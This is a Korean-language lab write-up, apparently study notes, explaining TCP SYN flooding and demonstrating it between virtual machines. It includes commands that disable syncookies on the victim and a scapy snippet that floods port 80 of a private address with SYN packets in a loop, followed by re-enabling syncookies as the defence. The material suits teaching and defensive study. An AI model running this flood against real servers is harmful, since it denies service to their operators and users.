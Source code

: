 ```yaml
---
sort: 3
---
```


# TCP SYN Flooding

<center><img src = "https://user-images.githubusercontent.com/76420201/106401723-fbdeef80-6468-11eb-80f2-9ee8eaece9d6.jpg"></center>


TCP/IP 네트워크에서의 정상적 TCP 연결 3-way handshake 과정의 경우, 클라이언트가 원격지 서버의 특정 포트에 SYN패킷(packet)을 발송함으로써 연결을 요청하고 요청을 받은 원격 서버가 SYN/ACK 패킷으로 응답한 후 수신된 연결 요청 정보를 해당 시스템 TCP 연결 자원인 Backlog Queue내 incomplete connection queue에 저장한다.

이때 서버가 응답한 SYN+ACK에 대하여 클라이언트가 ACK로써 응답을 보내지 않으면 accept()시스템 콜을 통해 클라이언트와 통신할 연결소켓을 생성하지 못하므로 서버는 incomplete connetion queue에 있던 연결 요청 정보를 수행하지 못하고 그대로 남아있다는 **half-open TCP** 연결 상태에 머무르는 구조적 취약점이 있다.

Attacker(공격자)는 이 취약점을 이용한 서비스 거부(Dos)를 유발하는 공격을 위해서 서버 특정 포트에 SYN packet을 발송하는 과정을 대량으로 중첩시켜 Backlog Queue내 incomplete connetion queue를 가득 채움으로써 소진시키게 되고 이로인해 더 이상 새로운 클라이언트의 TCP 연결요청을 받을 수 없게 되어 이 후 요청되는 다수의 TCP 연결이 완료되지 않고 무시된다.

```note
백로그 큐가 꽉 차게 되면 더 이상 연결요청을 받을 수 없어 정상적인 서비스 제공이 불가능한 상태가 된다.

클라이언트의 응답 문자(ACK)가 없으면 서버에서는 클라이언트의 접속 정보를 잠시 운용 기록에 쌓아 두는데, 이러한 요구가 증가했을 경우 시스템은 운용기록 공간을 확보하기 못하게 되고, 결국 네트워크 중단으로 이어여 Dos가 일어난다.

TCP 통신 연결 수립을 위한 3way-handshake 특성을 이용하여 클라이언트에서 SYN 정보만 전송 후, SYN/ACK 정보 수신에 따른 ACK전송을 하지 않음으로써 서버를 장시간 대기상태로 만들어 리소스를 점유하는 전형적인 SYN Flooding 공격 유형이다.
```
<br>

## 공격과정

**Step 1. Victim 가상머신에서 syncookie 사용을 확인 후 사용을 해제**

```
┌──(kali㉿kali)-[~]
└─$ sudo sysctl -a | grep syncookies
'net.ipv4.tcp_syncookies = 1'
```

syncookie를 사용하면 backlog que가 가득 차 있어도 정보를 계속 쌓을 수 있다. 실습을 위해서 Victim의 syncookie를 해제한다.

```
┌──(kali㉿kali)-[~]
└─$ sudo sysctl -w  net.ipv4.tcp_syncookies=0		
'net.ipv4.tcp_syncookies = 0'	
```

---

**Step 2. TCP syn flooding 공격**

```
┌──(kali㉿kali)-[~]
└─$ sudo scapy   
```

```
>>> tcp = TCP()
>>> tcp.dport = 80
>>> tcp.sport = RandNum(1024, 65535)
>>> tcp.flags = 'S'
>>> ip = IP()
>>> ip.dst = '192.168.94.133'
>>> syn = ip / tcp
>>> syn.show()

>>> send(syn, loop=True)
```

---

**Step 3. Victim 가상머신에서 네트워크 상태 확인**

```
┌──(kali㉿kali)-[~]
└─$ sudo netstat -an | grep -i syn_recv
```

![synflooding1](https://user-images.githubusercontent.com/76420201/107165490-73c39180-69f6-11eb-9140-af935a7eb2d8.GIF)

- WinXP 가상머신에서 Victim 가상머신의 아파치 서버로 접속을 시도
![synflooding2](https://user-images.githubusercontent.com/76420201/107165492-758d5500-69f6-11eb-9ea0-e1523287231a.GIF)

---

**Step 4. Victim 가상머신에서 syncookie 설정**

```
┌──(kali㉿kali)-[~]
└─$ sudo sysctl -a | grep syncookies   
net.ipv4.tcp_syncookies = 0
```                                                                                                                    ```
┌──(kali㉿kali)-[~]
└─$ sudo sysctl -w  net.ipv4.tcp_syncookies=1
net.ipv4.tcp_syncookies = 1
```                                                                                                                   ``` 
┌──(kali㉿kali)-[~]
└─$ sudo service apache2 restart  
```

- WinXP 가상머신에서 Victim 가상머신의 아파치 서버로 접속 시도
![synflooding3](https://user-images.githubusercontent.com/76420201/107165494-76be8200-69f6-11eb-9a0e-ea6dc959f788.GIF)


